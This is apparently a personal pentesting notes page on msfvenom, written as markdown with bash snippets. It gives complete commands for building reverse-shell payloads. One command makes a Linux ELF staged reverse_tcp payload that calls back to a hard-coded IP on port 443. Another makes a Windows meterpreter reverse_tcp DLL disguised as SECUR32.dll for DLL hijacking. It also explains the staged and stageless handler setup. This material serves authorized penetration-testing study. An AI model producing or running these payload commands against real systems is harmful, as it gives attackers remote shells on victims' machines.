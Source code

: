 ```yaml
---
title: msfvenom
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, terminal, shells
---
```


# msfvenom

You can generate a webshell by using  msfvenom

```bash
# List payloads
msfvenom --list payloads | grep x64 | grep linux | grep reverse  
```



## Some flags

```bash
# -b, or --bad-chars: The list of characters to avoid example: '0'

```


## Staged payload

```bash
msfvenom -p linux/x64/shell/reverse_tcp lhost=192.66.166.2 lport=443 -f elf -o newfile
```

After that

```bash
chmod +x newfile 
```

When creating a staged payload, you will need to use a metasploit handler (exploit/multi/handler) in order to receive the shell connection as only metasploit contains proper logic that will send the rest of the payload to the connector . In that case, the metasploit payload has to be the same one as the MSFVenom one.

## Stagedless payload

A stage less payload is a standalone program that does not need anything aditional (no metasploit connection), just the netcat listener on the computer.


## crafting a DLL file with a webshell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IPAttacker> LPORT=<4444> -a x86 -f dll > SECUR32.dll
# -p: for the chosen payload
# -a: architecture in the victim machine/application
# -f: format for the output file
```
[More about DLL highjacking in thick client applications](thick-applications/tca-attacking-thick-clients-applications.md#how-is-dll-hijacking-perform).


